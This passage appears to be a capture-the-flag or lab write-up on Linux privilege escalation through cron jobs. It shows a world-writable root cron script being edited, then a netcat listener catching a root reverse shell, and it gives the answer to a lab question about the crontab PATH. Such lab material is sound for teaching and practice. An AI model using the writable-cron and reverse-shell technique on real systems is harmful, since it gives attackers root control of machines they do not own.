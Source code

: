 
##  Cron Jobs - File Permissions

```bash
user@debian:/tmp$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh

user@debian:/tmp$ locate overwrite.sh
locate: warning: database `/var/cache/locate/locatedb' is more than 8 days old (actual age is 373.9 days)
/usr/local/bin/overwrite.sh
user@debian:/tmp$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
user@debian:/tmp$ nano /usr/local/bin/overwrite.sh
```


- Reverse Shell on target machine:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.95.239] 57151
bash: no job control in this shell
root@debian:~# whoami
whoami
root
```

---

##  Cron Jobs - PATH Environment Variable

### What is the value of the PATH variable in /etc/crontab?
- **Answer:** /home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
- **Steps to Reproduce:** 
